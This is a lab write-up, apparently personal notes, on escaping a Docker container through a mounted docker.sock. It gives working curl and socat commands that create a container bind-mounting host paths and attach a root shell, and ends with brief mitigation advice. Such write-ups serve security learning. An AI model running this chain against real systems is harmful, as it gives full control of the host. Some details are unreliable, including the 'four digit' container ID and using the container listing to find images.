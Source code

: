 # via-docker-socket

## briefing

Encountered a docker container which had the `docker.sock` included in the mounted volumes. This allowed for escape of the counter by interacting with the socket via `curl` requests. 

- lab environment:
	- [https://tryhackme.com/room/linuxagency](https://tryhackme.com/room/linuxagency)
- Procedure was created by studying this blog:
	- [https://www.secureideas.com/blog/2018/05/escaping-the-whale-things-you-probably-shouldnt-do-with-docker-part-1.html](https://www.secureideas.com/blog/2018/05/escaping-the-whale-things-you-probably-shouldnt-do-with-docker-part-1.html)


## procedure

> throughout this section, edit the `~/path/to/docker.sock` as needed.

### preparations

We need two things prepared:

1. we should escalate to the root user within the container we are trapped in
2. we need to serve a statically linked copy of `socat` to our target
3. we need to know what docker images are available on the target in order to prepapre the `containers.json` file. If the target has internet access, alpine is a nice image to pull down due to its small size

If our user does not have access to the docker binary to run `docker images`, we may still have permission to interact with the docker api directly via `curl`. 

The following lists available images. 

```bash
curl -XGET --unix-socket /var/run/docker.sock http://localhost/containers/json
```

Pick an available image, in our case `mangoman`, and prepare the `container.json` file.

```bash
echo -e '{"Image":"mangoman","Cmd":["/bin/sh"],"DetachKeys":"Ctrl-p,Ctrl-q","OpenStdin":true,"Mounts":[{"Type":"bind","Source":"/etc/","Target":"/host_etc"}]}' > container.json
```

Take note of the mounts in the above command, these can be modified to include the root file system. e.g. `"Source":"/", "Target":"/pwned"`. With access to the root file system of the host, arbitrary read/write is possible, therefore full compromise is achieved.


### start our malicious container

We can create a container based off of our `container.json` with:

```bash
curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d "$(cat container.json)" http://localhost/containers/create
```

The above command yields a response on stdout from the docker daemon. The response has the **four digit hex docker id** of the container we created. This id is needed for the remaining steps.

At this point, the container is **not running yet**. We can start it using the docker id by:

```bash
curl -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/4_DIGIT_DOCKER_ID_FROM_ABOVE/start
```

Note that the above command produces **no output on the terminal**.


### request shell from docker socket 

With our container running, we can now request a shell via the docker api by interacting with the `docker.sock` using `socat`. Any tool that allows manual crafting of HTTP headers will work, `socat` is used for reliability.


Open a connection using `socat`: 

```bash
./socat - UNIX-CONNECT:/var/run/docker.sock
```

Now we can modify HTTP header manually. I recommend preparing the following payload, then copy pasting it into the terminal.

```bash
POST /containers/4_DIGIT_DOCKER_ID_FROM_ABOVE/attach?stream=1&stdin=1&stdout=1&stderr=1 HTTP/1.1
Host:
Connection: Upgrade
Upgrade: tcp


```

Note the following

- the two line breaks in the above are necessary to make the HTTP request valid
- the `4_DIGIT_DOCKER_ID_FROM_ABOVE` must be replaced 

Returns a root shell to us! We are root user of our custom container. Our custom contianer has the host file system mounted on it. Thus, we have full control of the host.


## conclusion

The procedure detailed here is not an exhaustive description of what is possible from this misconfiguration. In general, if it can be done through the docker API then it can be done through similar methods as detailed above. This makes sense, as the `docker.sock` is pointed at localhost, which is within the "walled garden" and not subject to robust security standards. This escape vector can be eliminated by ensuring that the `docker.sock` is never accidentally mounted when containers are deployed. A redudancy measure could be implemented that uses the `find` command in all perspecitve mounts and halts container deployment in the event of `docker.sock` being present.